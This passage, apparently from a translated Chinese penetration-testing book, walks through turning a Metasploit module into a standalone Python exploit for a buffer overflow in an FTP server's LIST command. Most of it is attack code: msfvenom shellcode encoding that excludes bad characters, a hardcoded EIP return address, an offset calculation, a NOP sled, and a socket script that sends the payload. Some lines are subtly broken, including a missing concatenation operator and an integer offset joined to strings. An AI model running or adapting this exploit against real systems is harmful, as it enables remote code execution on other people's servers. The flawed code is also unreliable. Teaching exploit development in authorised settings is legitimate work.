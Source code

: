 现在，将数据编码为脚本的可用格式，以删除我们通常知道的坏字符。

```
cat shellcode |msfvenom -b "\x00\xff\x01\x09\x0a\x0d" -e x86/shikata_ga_nai -f c --arch x86 --platform win

```

结果输出为将用于此攻击的实际外壳代码：

![Reversing Metasploit modules](../Images/image00416.jpeg)

现在，我们可以开始使用 Metasploit 模块中的所有功能来设计我们的漏洞。我们将使用目标代码来提取`Offset`和`Ret`数据。`Ret`保存 EIP 的返回地址，`Offset`提供调整外壳代码位置所需的数据。

![Reversing Metasploit modules](../Images/image00417.jpeg)

生成我们利用的返回地址组件非常简单。

```
eip = struct.pack('<I',0x10028283)
```

每个模块的偏移设置可能不同，您可能需要执行其他数学运算以获得正确的值。因此，请始终查看突出显示的实际利用代码，如下所示：

![Reversing Metasploit modules](../Images/image00418.jpeg)

我们看到偏移量的长度从大小中删除了 IP 地址。这将创建一个更新的偏移值。

```
offset = 228 - len(lhost)
```

我们可以看到垃圾数据是由随机文本生成的。因此，我们可以以类似的方式生成 NOP。

```
nop = "\x90" *16
```

接下来，我们需要创建注入漏洞代码的操作顺序。

```
exploit = offset + eip + nop + shell
```

正如您所看到的，使用前面几节中使用的知识非常直接。最后一个组件是设置处理程序以与 FTP 服务交互。

```
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
```
